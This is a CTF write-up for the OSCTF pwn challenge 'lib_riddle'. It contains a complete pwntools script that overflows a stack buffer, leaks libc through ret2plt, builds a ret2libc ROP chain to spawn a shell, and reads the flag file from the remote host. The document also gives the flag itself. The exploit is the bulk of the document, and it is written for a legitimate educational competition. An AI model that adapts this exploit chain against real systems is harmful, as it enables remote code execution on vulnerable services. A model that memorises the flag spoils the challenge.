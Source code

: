 https://ctftime.org/event/2416

# lib_riddle (pwn)

Welcome to Lib-Riddle, where the library holds a secret deep inside its stacks. In this hilarious and intriguing challenge, you'll sift through piles of books and quirky clues to uncover the hidden mystery. Can you crack the code and reveal the library's best-kept secret? Dive in and let the quest for knowledge begin!

nc 34.125.199.248 7809

## Solution

1) ret2plt to leak libc base
2) ret2libc to get shell

Note that I used the `libc.so.6` from another challenge to have the same as the remote:

```
$ sha256sum libc.so.6 
46dcc397c118276bc5b4fa3fa918a0590da5e63fb3915f146784be2c903a3654  libc.so.6
```

```python
#!/usr/bin/env python3

from pwn import *
import struct

#context.log_level = "debug"
elf = ELF("./challenge", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("34.125.199.248", 7809)

p.readuntil(b"What's your name?\n")

rop = ROP(elf)
rop.raw('A' * 0x18)
rop.puts(elf.got['puts'])
rop.raw(elf.sym['main'])
p.sendline(rop.chain())

p.readline()
p.readline()
leak = struct.unpack("<Q", p.read(6) + b"\x00\x00")[0]
log.success(f"leak: {hex(leak)}")

libc.address = leak - libc.sym["puts"]
log.success(f"libc: {hex(libc.address)}")

rop = ROP(libc)
rop.raw(b"A" * 0x18)
rop.rdi = p64(next(libc.search(b"/bin/sh\x00")))
rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.call("system")
p.send(rop.chain())

p.readline()
p.readline()
p.readline()
p.readline()
p.sendline(b"/bin/cat /home/flag.txt")
log.success(p.readline().decode()) # OSCTF{l1br4ry_m4de_0f_5y5call5}
```

## Flag
`OSCTF{l1br4ry_m4de_0f_5y5call5}`

smiley 2024/07/13
